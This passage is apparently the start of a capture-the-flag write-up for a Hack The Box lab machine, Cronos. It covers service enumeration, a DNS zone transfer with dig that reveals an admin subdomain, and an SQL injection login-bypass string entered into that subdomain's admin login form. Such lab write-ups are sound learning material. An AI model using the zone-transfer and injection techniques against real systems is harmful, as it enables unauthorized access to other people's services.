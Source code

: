 # Chronos

IP: `10.10.10.13`

## Enum

- Ubuntu Apache/2.4.18 on port 80 with default page
- openssh 7.2p2 on port 22 username enumeration
- apache2ctl graceful privilege escalation
- 9.10.3-p4-ubuntu only has DOS vulnerabilities

We see that there is a dns for this which is called cronos.htb, so let's try to attack that instead.

Edit the `/etc/hosts` file to add `10.10.10.13     cronos.htb` inside.

Running a quick command for `dig` yields us with more dns

```sh
~/HTB/results/10.10.10.13 » dig axfr @10.10.10.13 cronos.htb                omar2535@kali

; <<>> DiG 9.16.4-Debian <<>> axfr @10.10.10.13 cronos.htb
; (1 server found)
;; global options: +cmd
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.             604800  IN      NS      ns1.cronos.htb.
cronos.htb.             604800  IN      A       10.10.10.13
admin.cronos.htb.       604800  IN      A       10.10.10.13
ns1.cronos.htb.         604800  IN      A       10.10.10.13
www.cronos.htb.         604800  IN      A       10.10.10.13
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
```

and we add `admin.cronos.htb` to our `/etc/hosts` file.

Navigating to `admin.cronos.htb`, plugging in `admin' -- -` for the username and anything for the password will give a valid sql injection.
